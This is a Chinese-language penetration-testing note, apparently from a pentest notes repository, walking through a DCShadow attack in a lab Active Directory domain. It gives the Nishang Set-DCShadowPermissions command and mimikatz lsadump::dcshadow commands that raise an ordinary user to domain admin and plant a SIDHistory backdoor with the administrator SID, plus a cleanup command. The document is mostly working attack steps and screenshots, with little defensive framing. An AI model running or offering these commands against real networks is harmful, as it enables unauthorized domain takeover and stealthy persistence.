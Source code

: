 	http://192.168.0.107/ps/nishang/ActiveDirectory/Set-DCShadowPermissions.ps1
	DCShadow攻击是通过更改AD架构，使域内一台机器伪造成域控。
	此脚本可以通过修改AD对象提供DCShadow攻击的最小权限。
	运行此脚本需要DA(Domain Administrator)权限，可以使指定用户不需要DA权限使用mimikatz。
	域控：dc.zone.com
	域内机器：sub2k8.zone.com
	域内普通用户:y
	域控执行
	>Set-DCShadowPermissions -Fakedc sub2k8 -Object dc -username y –Verbose
	注册sub2k8为假DC，给予用户y从sub2k8修改dc的计算机对象的权限。
![image](/assets/Pentest_Note/master/img/482.png)

	在sub2k8上，以本地system权限启动一个mimikatz会话，以zone\y权限启动一个mimikatz会话。
![image](/assets/Pentest_Note/master/img/483.png)
![image](/assets/Pentest_Note/master/img/484.png)

	System权限窗口执行dcshadow攻击，修改dc的计算机属性
	Zone\y权限窗口用于推送
	添加域管理
	通过修改安全标识符，将域内普通用户y提升为域管理用户
	>lsadump::dcshadow /object:y /attribute:primaryGroupID /value:512
![image](/assets/Pentest_Note/master/img/485.png)
![image](/assets/Pentest_Note/master/img/486.png)
![image](/assets/Pentest_Note/master/img/487.png)

	Zone\y推送
	>lsadump::dcshadow /push
![image](/assets/Pentest_Note/master/img/488.png)

	此时在域控上查询可见y用户已经加入域管理组。
![image](/assets/Pentest_Note/master/img/489.png)

	添加SIDHistory后门
	记录域管理SID
![image](/assets/Pentest_Note/master/img/490.png)

	>Set-DCShadowPermissions -FakeDC sub2k8 -Object y -Username y -Verbose
![image](/assets/Pentest_Note/master/img/491.png)
	
	>lsadump::dcshadow /object:y /attribute:sidhistory /value:S-1-5-21-2346829310-1781191092-2540298887-500
	推送
	>lsadump::dcshadow /push
![image](/assets/Pentest_Note/master/img/492.png)

	测试
![image](/assets/Pentest_Note/master/img/493.png)

	域控中通过mimikatz命令可查询到SIDHistory
![image](/assets/Pentest_Note/master/img/494.png)

	删除SIDHistory的方法
	PS>Get-ADUser -Filter {name -eq "y"} –Properties sidhistory|foreach {Set-ADuser $_ –remove @{sidhistory="S-1-5-21-2346829310-1781191092-2540298887-500"}}
![image](/assets/Pentest_Note/master/img/495.png)
![image](/assets/Pentest_Note/master/img/496.png)

	删除功能规则
	输入的规则后面加参数-remove即可。
![image](/assets/Pentest_Note/master/img/497.png)